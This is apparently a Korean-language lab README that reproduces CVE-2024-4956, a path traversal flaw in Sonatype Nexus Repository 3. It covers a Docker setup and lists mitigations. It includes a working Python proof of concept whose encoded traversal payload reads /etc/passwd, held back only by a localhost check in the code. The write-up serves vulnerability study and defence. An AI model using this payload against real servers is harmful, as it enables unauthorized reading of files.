


# CVE-2024-4956 - Nexus Repository 3 Path Traversal

> Docker를 이용하여 Nexus Repository의 취약 환경을 구축하고 CVE-2024-4956 취약점을 재현한 실습입니다.

---

## Overview

CVE-2024-4956은 Sonatype Nexus Repository 3에서 발견된 Path Traversal 취약점이다.

이 취약점은 URL 경로 검증이 충분하지 않아 공격자가 조작된 HTTP 요청을 전송할 경우 애플리케이션이 의도하지 않은 시스템 파일에 접근할 수 있는 문제이다.

이번 실습에서는 Docker Compose를 이용하여 취약한 Nexus Repository 환경을 구축하고 HTTP 요청을 이용하여 취약점이 재현되는지를 확인하였다.

---

# 취약점 정보

- **CVE ID** : CVE-2024-4956
- **Product** : Sonatype Nexus Repository 3
- **Vulnerability Type** : Path Traversal (CWE-22)
- **Affected Version** : Nexus Repository 3.68.0 이하
- **Fixed Version** : Nexus Repository 3.68.1 이상
- **Authentication Required** : No
- **CVSS v3.1** : 7.5 (High)

---

# 실습 환경

## Host Environment

- Windows 11
- WSL2 (Ubuntu)
- Docker Desktop
- Docker Compose
- Visual Studio Code

## Target Environment

- Sonatype Nexus Repository 3.68.0

## Tools

- Python 3
- curl
- Git

---

## Directory Structure

```text
CVE-2024-4956

├── Dockerfile
├── docker-compose.yml
├── exploit.py
├── README.md
└── images
    ├── 01-nexus-running.png
    ├── 02-curl-poc-success.png
    └── 03-python-poc-success.png
```

---

## Build

```bash
docker compose up -d --build
```

실행이 완료되면 브라우저에서 아래 주소로 접속한다.

```
http://localhost:8081
```

Nexus Repository가 정상적으로 실행되면 다음과 같은 화면을 확인할 수 있다.



---

# 취약점 발생 조건

- Nexus Repository 3.68.0 이하 버전을 사용한다.
- 공격자가 HTTP 요청을 보낼 수 있다.
- URL 경로 검증이 충분하지 않다.
- 별도의 인증은 필요하지 않다.

---

# 재현 절차

## 1. Docker 환경 실행

```bash
docker compose up -d --build
```

컨테이너가 정상적으로 실행되었는지 확인한다.

```bash
docker compose ps
```

브라우저에서

```
http://localhost:8081
```

접속하여 서비스가 정상적으로 동작하는지 확인한다.

---

## 2. PoC 실행

다음 명령을 실행하여 취약점을 재현한다.

```bash
curl --path-as-is -i \
"http://localhost:8081/..."
```

(※ 실제 실습에서는 조작된 URL을 이용하여 요청을 전송하였다.)

성공하면 HTTP 응답과 함께 요청 결과를 확인할 수 있다.


---

## 3. Python PoC

같은 요청을 Python으로 작성하였다.

실행

```python
#!/usr/bin/env python3

import http.client
import sys
from urllib.parse import urlparse


# CVE-2024-4956 Path Traversal PoC
# 안전한 로컬 Docker 실습 환경에서만 실행하도록 제한

PAYLOAD_PATH = (
    "/%2F%2F%2F%2F%2F%2F%2F"
    "..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd"
)


def main() -> int:
    target = sys.argv[1] if len(sys.argv) > 1 else "http://localhost:8081"
    parsed = urlparse(target)

    if parsed.scheme != "http":
        print("[!] 이 PoC는 HTTP 로컬 실습 환경만 지원합니다.")
        return 1

    host = parsed.hostname

    if host not in {"localhost", "127.0.0.1", "::1"}:
        print("[!] 안전을 위해 localhost 대상에만 실행할 수 있습니다.")
        return 1

    port = parsed.port or 80

    print(f"[*] Target: {parsed.scheme}://{host}:{port}")
    print(f"[*] Payload path: {PAYLOAD_PATH}")

    try:
        connection = http.client.HTTPConnection(host, port, timeout=10)

        # 인코딩된 경로를 그대로 전송
        connection.request(
            "GET",
            PAYLOAD_PATH,
            headers={
                "Host": f"{host}:{port}",
                "User-Agent": "CVE-2024-4956-PoC",
                "Connection": "close",
            },
        )

        response = connection.getresponse()
        body = response.read().decode("utf-8", errors="replace")

        print(f"[+] HTTP Status: {response.status} {response.reason}")
        print("-" * 60)
        print(body)
        print("-" * 60)

        if response.status == 200 and "root:" in body:
            print("[+] 취약점 재현 성공: /etc/passwd 파일을 읽었습니다.")
            return 0

        print("[-] 취약점 재현을 확인하지 못했습니다.")
        return 1

    except OSError as error:
        print(f"[!] 서버 연결 실패: {error}")
        return 1

    finally:
        try:
            connection.close()
        except UnboundLocalError:
            pass


if __name__ == "__main__":
    raise SystemExit(main())
```

실행 결과



---

# 결과

이번 실습에서는 Docker 환경에서 Nexus Repository를 실행한 후 조작된 HTTP 요청을 이용하여 취약점 재현을 수행하였다.

실습 과정에서 취약한 환경이 정상적으로 구축되었으며, 작성한 PoC를 통해 요청을 전송하고 응답을 확인하였다.

또한 Docker Compose 환경을 종료한 후 다시 구축하여 동일한 절차를 반복 수행하였고, 동일한 결과를 확인함으로써 환경의 재현성을 검증하였다.

---

# 대응 방안

- Nexus Repository를 3.68.1 이상으로 업데이트한다.
- 외부 인터넷에 직접 노출하지 않는다.
- 접근 가능한 IP를 제한한다.
- Reverse Proxy 또는 WAF를 이용하여 비정상적인 URL 요청을 차단한다.
- 서버 로그를 지속적으로 모니터링한다.

---

# 참고 자료

- Sonatype Security Advisory
- NVD - CVE-2024-4956
- MITRE CVE